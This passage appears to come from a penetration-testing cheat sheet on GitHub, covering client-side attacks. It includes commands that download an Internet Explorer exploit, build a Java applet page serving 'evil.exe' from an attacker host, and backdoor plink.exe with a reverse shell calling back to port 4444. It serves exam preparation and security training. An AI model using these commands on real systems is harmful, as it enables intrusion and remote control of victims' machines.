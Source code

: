 -

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='74'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2307' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#client-attacks)Client Attacks

    - MS12-037- Internet Explorer 8 Fixed Col Span ID

wget -O exploit.htmlhttp://www.exploit-db.com/download/24017
service apache2 start

    - JAVA Signed Jar client side attack

echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://$ip:80/evil.exe"></applet>' > /var/www/html/java.html

User must hit run on the popup that occurs.

    - Linux Client Shells

[*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    - Setting up the Client Side Exploit
    - Swapping Out the Shellcode
    - Injecting a Backdoor Shell into Plink.exe

backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip -P 4444 -s reverse_shell_tcp

-

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='75'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2332' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#web-attacks)Web Attacks

